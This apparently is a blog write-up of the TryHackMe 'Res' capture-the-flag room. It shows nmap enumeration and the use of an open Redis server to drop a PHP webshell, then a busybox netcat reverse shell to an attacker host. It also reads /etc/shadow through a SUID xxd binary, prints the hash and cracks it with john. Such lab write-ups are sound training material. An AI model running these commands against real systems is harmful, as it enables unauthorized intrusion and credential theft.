 ```yaml
---
title: "Res"
date: 2025-02-05
image: /assets/img/general/CTFgeneral_image.jpg
description: Writeup of the TryHackMe-CTF Res
categories: [Tryhackme, Easy]
tags: [linux, dbms, redis, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Res</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Hack into a vulnerable database server with an in-memory data-structure in this semi-guided challenge!</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/res">https://tryhackme.com/room/res</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Res.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.174.47             
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-13 04:14 EST
  Nmap scan report for 10.10.174.47
  Host is up (0.043s latency).
  Not shown: 65533 closed tcp ports (conn-refused)
  PORT     STATE SERVICE
  80/tcp   open  http
  6379/tcp open  redis

  Nmap done: 1 IP address (1 host up) scanned in 30.83 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 80,6379 10.10.174.47
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-13 04:15 EST
  Nmap scan report for 10.10.174.47
  Host is up (0.037s latency).

  PORT     STATE SERVICE VERSION
  80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
  |_http-title: Apache2 Ubuntu Default Page: It works
  |_http-server-header: Apache/2.4.18 (Ubuntu)
  6379/tcp open  redis   Redis key-value store 6.0.7

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 7.42 seconds
```
From here I proceeded the analysis port by port.

## Port 80 Analysis

Since the webserver displayed an `Apache2` default website, I conducted a Gobuster scan, but it didn’t reveal anything useful.

## Port 6379 Analysis

As nmap revealed a `redis` service running on port `6379`, I used the redis cli to connect to the server. Since redis uses a file-based structure, I was able to create a new file. I leveraged this to create a PHP webshell: 

```bash
10.10.3.94:6379> config set dir /var/www/html
	OK
10.10.3.94:6379> config set dbfilename shell.php
	OK
10.10.3.94:6379> set test "<?php system($_GET['cmd']);?>"
	OK
10.10.3.94:6379> save
	OK
```

This allowed me to successfully execute commands on the system:

![Command Execution](/assets/img/tryhackme/Res/thm_res_1.jpg)

Next, I generated a reverse shell using `busybox`:

```bash
http://10.10.3.94/shell.php?cmd=busybox nc [attackerip] 9001 -e sh
```

Netcat received the the reverse shell, after which I stabilized the session. From here I was able to collect the user flag:

```bash
www-data@ubuntu:/var/www/html$ cd /home
www-data@ubuntu:/home$ ls
	vianka
www-data@ubuntu:/home$ cd vianka/
www-data@ubuntu:/home/vianka$ ls
	redis-stable  user.txt
www-data@ubuntu:/home/vianka$ cat user.txt 
	thm{[removed]} 
```

## Privilege Escalation vianka

While performing manual privilege escalation techniques, I discovered an executable with the SUID bit set:

```bash
/usr/bin/xxd
```

I used xxd to read the `shadow` file which gave me the user hash from `vianka`:

```bash
$ LFILE=/etc/shadow
$ xxd "$LFILE" | xxd -r
	vianka:$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0:18507:0:99999:7:::
```

On my local machine I created a file, pasted the hash in and ran it with `john` against the `rockyou.txt`:
```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash  
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 512/512 AVX512BW 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
[removed]       (vianka)     
1g 0:00:00:00 DONE (2025-02-13 05:02) 10.00g/s 20480p/s 20480c/s 20480C/s 123456..lovers1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Using the cracked password, I successfully logged in as `vianka`:
```bash
www-data@ubuntu:/home/vianka$ su vianka 
  Password: 
vianka@ubuntu:~$
```

## Privilege Escalation root
I started with `sudo -l` and got the following output:
```bash
vianka@ubuntu:~$ sudo -l
[sudo] password for vianka: 
Matching Defaults entries for vianka on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vianka may run the following commands on ubuntu:
    (ALL : ALL) ALL
```

From here I just needed to read the flag:
```bash
vianka@ubuntu:~$ sudo cat /root/root.txt
thm{[removed]}
```

solved! :)
